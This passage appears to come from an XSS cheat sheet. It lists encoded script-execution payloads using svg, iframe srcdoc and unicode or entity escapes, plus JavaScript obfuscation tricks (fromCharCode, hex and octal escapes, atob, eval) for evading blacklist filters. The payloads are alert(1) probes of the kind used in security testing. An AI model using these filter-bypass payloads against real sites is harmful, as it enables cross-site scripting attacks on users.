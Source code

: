 ```````````````javascript
// This is valid JS code, because each time the function returns itself it's recalled with ``
function loop(){return loop}
loop``````````````
```````````````

### Encoded code execution

```markup
<script>\u0061lert(1)</script>
<svg><script>alert&lpar;'1'&rpar;
<svg><script>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</script></svg>  <!-- The svg tags are neccesary
<iframe srcdoc="<SCRIPT>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</iframe>">
```

### Unicode Encode JS execution

```javascript
\u{61}lert(1)
\u0061lert(1)
\u{0061}lert(1)
```

### JavaScript bypass blacklists techniques

**Strings**

```javascript
"thisisastring"
'thisisastrig'
`thisisastring`
/thisisastring/ == "/thisisastring/"
/thisisastring/.source == "thisisastring"
"\h\e\l\l\o"
String.fromCharCode(116,104,105,115,105,115,97,115,116,114,105,110,103)
"\x74\x68\x69\x73\x69\x73\x61\x73\x74\x72\x69\x6e\x67"
"\164\150\151\163\151\163\141\163\164\162\151\156\147"
"\u0074\u0068\u0069\u0073\u0069\u0073\u0061\u0073\u0074\u0072\u0069\u006e\u0067"
"\u{74}\u{68}\u{69}\u{73}\u{69}\u{73}\u{61}\u{73}\u{74}\u{72}\u{69}\u{6e}\u{67}"
"\a\l\ert\(1\)"
atob("dGhpc2lzYXN0cmluZw==")
eval(8680439..toString(30))(983801..toString(36))
```

**Special escapes**

```javascript
'\b' //backspace
'\f' //form feed
'\n' //new line
'\r' //carriage return
'\t' //tab
'\b' //backspace
'\f' //form feed
'\n' //new line
'\r' //carriage return
'\t' //tab
// Any other char escaped is just itself
```

